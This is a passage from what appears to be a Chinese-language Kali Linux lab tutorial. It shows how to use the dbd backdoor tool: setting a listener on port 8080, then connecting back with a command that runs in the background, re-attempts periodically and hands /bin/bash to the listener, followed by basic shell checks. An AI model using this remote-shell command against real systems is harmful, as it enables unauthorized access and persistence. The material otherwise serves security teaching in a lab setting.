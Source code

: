 在查看 `Dbd` 选项含义后，我们在 Kali 终端中输入如下命令，进行监听行为：

```
# 使用命令对端口进行监听
dbd -l -p 8080 -v
```
其中命令参数所代表的含义如下列表：

| 参数名称 | 参数所代表的含义                   |
| -------- | ---------------------------------- |
| `-l`     | 用来监听即将传入的连接端口         |
| `-p`     | 连接过程中，服务器侦听的具体端口号 |
| `-v`     | 输出连接时产生的详细信息           |

![图片描述](../imgs/1481094638641.png-wm)


接着在另一个 Kali 终端中，输入命令，进行连接交互：

```
# 进行交互
dbd -r 2400 -D on -v -e /bin/bash 192.168.122.101 8080
```

![图片描述](../imgs/1481094716075.png-wm)

在上面的这条命令中，其中参数所代表的具体含义分别为：

| 参数名称 | 参数所代表的含义                               |
| -------- | ---------------------------------------------- |
| `-r`     | 设置计时的具体秒数，其单位为秒                 |
| `-D on`  | 意思是作为后台进程运行                         |
| `-p`     | 连接过程中，监听的具体端口号                   |
| `-v`     | 对连接产生的信息，详细地输出                   |
| `-e`     | 连接成功后，所调用的程序，这里调用 `/bin/bash` |


在输入这条命令结束后，服务器端和客户端建立起了连接，出现了这条命令，即为成功后的标志：

```
# 连接成功后进行交互
connect to 192.168.122.101:8080 from 192.168.122.101:37066 （kali）
```

接着可以在这条命令下，使用 Linux 的基本操作命令，进行系统信息验证，结果如图所示：

```
# 查看当前用户是谁
whoai

# 查看当前路径
pwd

# 查看当前路径下文件
ls

```
